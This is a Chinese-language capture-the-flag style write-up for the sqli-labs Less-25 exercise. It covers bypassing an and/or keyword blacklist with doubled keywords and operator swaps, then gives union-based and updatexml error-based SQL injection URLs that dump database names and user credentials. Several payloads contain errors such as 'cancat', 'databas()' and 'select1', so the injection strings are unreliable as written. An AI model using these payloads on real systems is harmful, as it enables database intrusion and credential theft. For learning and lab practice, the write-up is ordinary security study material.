 ```
		multipolygon()
		f.mysql特殊语法
		select{x schema_name} from {x information_schema.schemata};
		select{x 1};
		g.大小写绕过、关键字重复
		如果对关键字union or and等进行了过滤可以考虑大小写绕过
		h.关键字替换
		如果还是无法绕过可以考虑替换的方法：
		and->&&  or->||  like->=  <>->!=
		i.fuzz测试
		burpsuite配合手工进行测试。
```



题目中采用黑名单：

```
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
##对or、and大小写不敏感。
	return $id;
}
```



和其他题目一样只不过需要考虑绕过字符过滤

```
#联合注入
#爆库
http://113.54.234.152/sqli-labs-master/Less-25/?id=-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata --+
##Your Password:information_schema,challenges,mysql,performance_schema,security,test
以上面为例：需要把出现过滤的内容进行复写即可绕过，其余操作一致

#爆所有内容的连接思路：新姿势
http://113.54.234.152/sqli-labs-master/Less-25/?id=-1' union select1,2,group_concat(concat_ws(0x7e,username,passwoord)) from security.users --+
##波浪号作为用户名和密码之间的内容分割符号
```



```
#报错注入
http://113.54.234.152/sqli-labs-master/Less-25/?id=-1' || updatexml(1,cancat(0x7e,(databas())),1)
##这样会没有闭合报错
http://113.54.234.152/sqli-labs-master/Less-25/?id=-1' || updatexml(1,cancat(0x7e,(databas())),1) || '1'='1
##报错反馈数据库信息

#爆库
http://113.54.234.152/sqli-labs-master/Less-25/?id=-1' || updatexml(1,cancat(0x7e.(select schema_name from infoorrmation_schema.schemata limit 0,1)),1)||'1'='1
##单个搜寻
```
